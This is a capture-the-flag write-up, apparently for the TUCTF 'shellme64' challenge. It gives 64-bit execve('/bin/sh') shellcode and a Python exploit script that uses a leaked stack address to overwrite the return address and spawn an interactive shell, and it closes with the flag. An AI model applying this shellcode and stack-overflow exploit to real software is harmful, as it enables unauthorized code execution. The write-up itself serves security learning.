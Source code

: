 > Same concept, more bytes.

Solved by Vanilla

This is almost identical to shellme32, we just need to switch up a string and use 64-bit shellcode:

; vim:ft=fasm
use64

xor    ecx,ecx
push   59
pop    rax
push   rcx
mov    rdx,rsp
mov    rsi,rsp
mov    rbx,'/bin/sh'
push   rbx
mov    rdi,rsp
syscall
int3

#!/usr/bin/env python3
import struct
import vanillib

SHELLCODE = open('scode.bin', 'rb').read()


def exploit(iface):
    iface.expect(b"Hey! I think you dropped this\n")
    address = int(iface.read_until(b"\n", include=False), 16)
    iface.expect(b"> ")
    padded_scode = SHELLCODE + b"\xCC" * ((-len(SHELLCODE)) % 8)
    iface.write(padded_scode + struct.pack('<Q', address) * ((0x40 - len(padded_scode)) // 8) + b"exec sh -il 2>&1\n")
    iface.interact()


main = vanillib.stub_main(exploit)

if __name__ == "__main__":
    main()

Flag: TUCTF{54m3_5h3llc0d3,_ju57_m0r3_by735}


